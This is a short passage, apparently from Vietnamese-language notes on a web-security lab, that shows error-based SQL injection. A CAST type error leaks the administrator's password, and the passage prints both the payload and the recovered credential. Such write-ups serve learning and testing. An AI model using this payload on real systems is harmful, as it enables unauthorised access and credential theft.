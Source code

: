 
=> cast() thất bại => trả về lỗi dữ liệu, kèm cả tên user (kiểu text): `administartor`

- Leak password: `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

![image-20250601120854405](./image/image-20250601120854405.png)

=> `administrator`:`g8l4nmt8x8db62a8wyj1`
